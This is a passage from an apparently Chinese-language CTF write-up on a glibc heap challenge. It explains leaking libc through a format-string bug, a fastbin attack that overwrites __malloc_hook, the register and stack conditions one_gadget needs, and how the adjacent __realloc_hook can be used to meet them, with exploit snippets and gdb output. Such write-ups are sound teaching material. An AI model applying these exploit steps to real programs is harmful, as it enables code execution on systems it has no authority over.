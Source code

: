 %10$x 对应 0x7fff5408f000 , 泄露出__libc_start_main+240 应该用%13$p

```
new(0x50,"a"*6+p64(0)+p64(printf_plt)[:7])
de(0)
libc.address = int(r(14),16) - libc.sym["__libc_start_main"]-240
```

#### 3. 构造覆盖malloc_hook

构造方法依然是fastbin attack，泄露libc过程中会把free_got覆盖，此后就不能用free了，因此这两步要同步进行。
同时准备好两个fastbin attack 的环境如下,再执行后续leak libc 和覆盖malloc_hook的操作
```
0x60 : 19 -> 18 -> 19
0x70 : 19 -> 18 -> 19
```

常见的方法是覆盖onegadget到malloc_hook,但是onegadget的使用是有条件的，比如
```
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
如果4个条件都不满足，我们还可以用realloc_hook 给自己续一秒
realloc_hook的位置和malloc_hook相邻
```
gdb-peda$ p &__realloc_hook
$3 = (void *(**)(void *, size_t, const void *)) 0x7f93d701eb08 <__realloc_hook>
gdb-peda$ p &__malloc_hook
$4 = (void *(**)(size_t, const void *)) 0x7f93d701eb10 <__malloc_hook>
```
可以构造`padding+p64(one)+p64(realloc+x) `通过调整realloc的地址，来找出满足onegadget的条件。

先用realloc的地址查看情况，以0x4526a 为例 需要 ` [rsp+0x30] == NULL` 可是查看rsp+0x30并不满足条件
`rsp+0x30 : 0x7ffec63d63b8 --> 0x100000000`

查看周围
![](IMG/HuXiang/realloc.png)
